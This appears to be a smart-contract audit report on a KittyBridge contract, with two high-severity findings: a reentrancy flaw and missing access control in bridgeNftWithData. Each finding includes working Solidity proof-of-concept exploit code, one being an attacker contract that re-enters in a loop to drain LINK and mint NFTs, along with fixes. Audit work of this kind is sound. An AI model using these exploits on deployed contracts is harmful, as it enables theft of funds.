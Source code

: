 ### [H-1] Reentrancy in `KittyBridge::bridgeNftWithData` (Reentrancy), this will lead to unauthorized minting of NFTs.

**Description:** The `KittyBridge::bridgeNftWithData` function is vulnerable to reentrancy attack.
The attacker can call the `KittyBridge::bridgeNftWithData` with crafted data and in the callback function `onERC721Received` , they can call the `KittyBridge::bridgeNftWithData` again, which will lead to unauthorized minting of NFTs. The only limitation is that the KittyBridge should have enough link token and the transaction should always go through.

**Impact:**
This will lead to unauthorized minting of NFTs, which will lead to loss of funds for the owner of the contract.

**Proof of Concept:**

<details>

<summary>POC:</summary>

Attacker Contract:

```solidity
contract AttackerContract is IERC721Receiver {
    struct CatInfo {
        string catName;
        string breed;
        string image;
        uint256 dob;
        address[] prevOwner;
        address shopPartner;
        uint256 idx;
    }

    IKittyBridge public kittyBridge;
    HelperConfig.NetworkConfig public networkConfig;

    constructor(
        address _kittyBridge,
        HelperConfig.NetworkConfig memory _networkConfig
    ) {
        kittyBridge = IKittyBridge(_kittyBridge);
        networkConfig = _networkConfig;
    }

    function attack() public {
        string
            memory catImageIpfsHash = "ipfs://QmbxwGgBGrNdXPm84kqYskmcMT3jrzBN8LzQjixvkz4c62";

        CatInfo memory catInfo = CatInfo(
            "meowdy",
            "hehe",
            catImageIpfsHash,
            block.timestamp,
            new address[](0),
            address(0),
            1
        );

        bytes memory _data = abi.encode(
            address(this),
            catInfo.catName,
            catInfo.breed,
            catInfo.image,
            catInfo.dob,
            catInfo.shopPartner
        );

        while (
            IERC20(networkConfig.link).balanceOf(address(kittyBridge)) != 0
        ) {
            kittyBridge.bridgeNftWithData(
                networkConfig.otherChainSelector,
                address(this),
                _data
            );
        }
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external override returns (bytes4) {
        attack();

        return this.onERC721Received.selector;
    }
}
```

Test Case:

```solidity
 function testReentrancy() public {
    AttackerContract attackerContract = new AttackerContract(
        address(kittyBridge),
        networkConfig
    );

    attackerContract.attack();
}
```

</details>

**Recommended Mitigation:**
To prevent reentrancy, the contract should use the reentrancy guard modifier from OpenZeppelin in the `bridgeNftWithData` function.

```diff
+ import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";

function bridgeNftWithData(
    uint64 _destinationChainSelector,
    address _receiver,
    bytes memory _data
)
external
+   nonReentrant
onlyAllowlistedDestinationChain(_destinationChainSelector)
validateReceiver(_receiver)
returns (bytes32 messageId)
{
...
}
```

### [H-2] No access control in `KittyBridge::bridgeNftWithData` (Lack of Access Control), this will lead to unauthorized minting of NFTs.

**Description:** No access control is implemented in `KittyBridge::bridgeNftWithData` function, which allows anyone to mint NFTs even if they are not the owner of the NFT. so they can mint a lot of NFTs for free. All they need t o do is to pack the `data`` in the correct format and call the function, and they will get the NFTs minted.

**Impact:**
This will lead to unauthorized minting of NFTs, which will lead to loss of funds for the owner of the contract.

**Proof of Concept:**

<details>

<summary>POC:</summary>

```solidity
 function testUnlimitedNFT_mint() public {
    address attacker = makeAddr("attacker");
    string
        memory catImageIpfsHash = "ipfs://QmbxwGgBGrNdXPm84kqYskmcMT3jrzBN8LzQjixvkz4c62";

    CatInfo memory catInfo = CatInfo(
        "meowdy",
        "hehe",
        catImageIpfsHash,
        block.timestamp,
        new address[](0),
        address(0),
        1
    );

    bytes memory data = abi.encode(
        attacker,
        catInfo.catName,
        catInfo.breed,
        catInfo.image,
        catInfo.dob,
        catInfo.shopPartner
    );

    vm.prank(attacker);

    kittyBridge.bridgeNftWithData(
        networkConfig.otherChainSelector,
        attacker,
        data
    );
}

```

</details>

**Recommended Mitigation:**
Add access control to the `bridgeNftWithData` function to prevent unauthorized minting of NFTs. Such that only the KittyConnect contract can call the function.

```diff
function bridgeNftWithData(
    uint64 _destinationChainSelector,
    address _receiver,
    bytes memory _data
    )
    external
    onlyAllowlistedDestinationChain(_destinationChainSelector)
    validateReceiver(_receiver)
    returns (bytes32 messageId)
{
+       require(msg.sender == kittyConnect, "KittyBridge__NotKittyConnect");
...
}
```
